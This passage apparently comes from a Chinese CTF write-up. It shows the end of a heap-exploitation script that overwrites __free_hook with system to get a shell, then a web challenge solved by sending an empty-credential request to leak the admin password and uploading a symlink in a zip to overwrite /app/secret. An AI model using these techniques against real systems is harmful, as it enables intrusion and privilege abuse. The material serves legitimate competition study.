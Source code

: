 ```python
delete(1)
delete(2)
delete(3)
delete(4)
delete(5)
delete(6)
delete(8)
delete(11)
delete(10)

create(0, 0x20, b'')
create(1, 0x20, b'')
create(2, 0x20, b'')
create(3, 0x20, b'')
create(4, 0x20, b'')
create(5, 0x20, b'')
create(6, 0x20, b'')
create(8, 0x20, p64(free_hook_addr))
create(13, 0x20, b'')
create(14, 0x20, b'')
create(15, 0x20, p64(system_addr))
delete(12)

p.interactive()
```

## WEB
### Zero Link

构造一个空的请求，即可得到admin的密码

```
POST http://192.168.3.80:8000/api/user HTTP/1.1
Content-Type: application/json
Content-Length: 1

{
    "username": "",
    "token": ""
}
```

然后利用软链接对/app/secret进行修改。首先构造一个指向/app的软链接并打包进压缩包

```bash
ln -s /app test
zip --symlinks test.zip test
```

传上去，unzip，在/tmp中留下软链接

然后再构造一个文件内容为/flag的secret，打包进zip中，路径与软链接的相对路径相同。
